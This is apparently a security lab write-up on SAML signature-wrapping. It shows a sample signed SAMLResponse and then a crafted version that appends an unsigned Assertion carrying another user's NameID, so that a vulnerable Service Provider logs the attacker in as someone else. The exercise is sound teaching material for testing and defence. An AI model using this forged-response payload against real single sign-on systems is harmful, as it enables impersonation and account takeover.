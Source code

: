 ## Introduction
-->This course details the exploitation of an insecure SAML implementation that allows a malicious user to become another user by tampering with the SAMLResponse.

## SAML Wrapping
-->When the Identity Provider sends the SAMLResponse to the Service Provider, the Service Provider needs to do two things:

1.  Verify the signature
2.  Get the information from the message

-->SAML Wrapping attacks are relying on the fact that step #2 may not be parsing the XML message in the same way as step #1.

-->If we take a simplified version of the SAMLResponse:
```xml
	<samlp:Response>
	    <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
	      <ds:Signature>
	        <ds:SignedInfo>
	          <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
	          </ds:Reference>
	        </ds:SignedInfo>
	        <ds:SignatureValue>...</ds:SignatureValue>
	      </ds:Signature>
	      <Subject>
	        <NameID>louis@example.org</NameID>
	      </Subject>
	    </Assertion>
	  </samlp:Response>
```
-->We can see that there is a Reference in the SignedInfo pointing to the Assertion that was signed. Implementations should rely on this reference to fetch the NameID.
-->The issue here comes from the fact that when retrieving the NameID, the SAML library or the application leveraging the SAML library may not return the same NameID as the one it verified.

## The attack
-->For this challenge, the application will use the last NameID it can find in the SAMLResponse. Therefore you will need to craft a SAMLResponse that looks something like:
```xml
	 <samlp:Response>
	    <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
	      <ds:Signature>
	        <ds:SignedInfo>
	          <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
	          </ds:Reference>
	        </ds:SignedInfo>
	        <ds:SignatureValue>...</ds:SignatureValue>
	      </ds:Signature>
	      <Subject>
	        <NameID>louis@example.org</NameID>
	      </Subject>
	    </Assertion>
	    <Assertion ID="whatever_you_want">
	      <Subject>
	        <NameID>hacker@example.org</NameID>
	      </Subject>
	    </Assertion>
	  </samlp:Response>
```
-->You will obviously need to base this SAMLResponse from the initial SAMLResponse and most fields not showed in the XML above should be kept

## Conclusion
-->This exercise showed you how to exploit a vulnerability in a SAML implementation impacting the Service Provider. With more and more enterprises using SSO, it's essential to ensure that this kind of mistakes gets detected and fixed before they get exploited.

# Video Explanation
-->ee lab in video explanation illa.nerthepole entho aan.njan chyunila ok
